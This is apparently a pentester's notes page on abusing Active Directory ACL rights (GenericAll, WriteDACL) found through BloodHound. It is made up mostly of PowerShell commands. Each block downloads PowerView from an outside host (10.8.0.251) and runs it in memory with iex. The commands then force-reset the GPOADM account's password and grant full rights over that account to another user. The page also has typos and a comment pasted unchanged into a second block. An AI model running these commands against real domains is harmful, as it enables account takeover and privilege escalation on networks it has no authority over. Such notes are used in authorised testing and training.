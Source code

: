 # ACL Abuse

In Bloodhound output, here is a list of attack that you could do.

* **GenericAll to Domain Controller Machine Account** - Resouces Based Constrained Delegation Attack.&#x20;
* **GenericAll to a user account** - Resetting Password&#x20;

{% code overflow="wrap" %}
```bash
# Import PowerView
PS> iex (new-Object Net.WebClient).DownloadString('http://10.8.0.251/privesc/PowerView.ps1')|Import-Module PowerView.ps1
 
# Assume that Amelia.Griffiths account is a member of 'Legacy' group, whicn has a WriteDACL privilege ot GPOADM account. 
# You are logged on as Amelia.Griffiths. 
# This gives the GenericlAll privilege to Amelia.Griffiths targetting to GPOADM. 

 PS> $UserPassword = ConvertTo-SecureString 'Password0-' -AsPlainText -Force
 PS> Set-DomainUserPassword -Identity GPOADM -AccountPassword $UserPassword
```
{% endcode %}

* **WriteDACL to a user account** - Adding GenericAll to the account, targeting to another account. &#x20;

{% code overflow="wrap" %}
```bash
# Import PowerView
PS> iex (new-Object Net.WebClient).DownloadString('http://10.8.0.251/privesc/PowerView.ps1')|Import-Module PowerView.ps1
 
# Assume that Amelia.Griffiths account is a member of 'Legacy' group, whicn has a WriteDACL privilege ot GPOADM account. 
# You are logged on as Amelia.Griffiths. 
# This gives the GenericlAll privilege to Amelia.Griffiths targetting to GPOADM. 

PS> Add-DomainObjectAcl -Rights 'All' -TargetIdentity "GPOADM" -PrincipalIdentity "Amelia.Griffiths" -Verbose
```
{% endcode %}

